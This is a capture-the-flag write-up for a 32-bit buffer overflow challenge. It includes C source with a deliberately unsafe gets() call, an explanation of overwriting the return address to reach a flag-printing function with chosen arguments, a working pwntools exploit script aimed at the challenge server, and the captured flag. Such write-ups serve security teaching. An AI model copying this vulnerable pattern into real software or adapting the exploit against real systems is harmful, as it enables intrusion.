

# Bof to the top

## Description

> Anything it takes to climb the ladder of success
>
> nc ctf.umbccd.io 4000

Attached is the binary and the c code.

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

## Solution

This is a fairly easy exploit as the source code is given. Function `audition` prints the flag, we just need to reach it from `get_audition_info`. We can overflow the buffer to overwrite the return address and set it to `audition`'s address. We also need to pass the correct arguments to the function, we can also give them by modifying the stack.

```python
from pwn import *

audition = 0x08049182
ebp = 0xffffd5e8

sh = remote("ctf.umbccd.io", 4000)

print(sh.recvuntil("name?").decode())
sh.sendline("Hello")
print(sh.recvuntil("singing?").decode())

payload = b'0'*100 + p32(ebp) + p32(ebp) + p32(ebp) + p32(audition) + p32(ebp) + p32(1200) + p32(366)

sh.sendline(payload)

sh.interactive()
```



Flag: `DawgCTF{wh@t_teAm?}`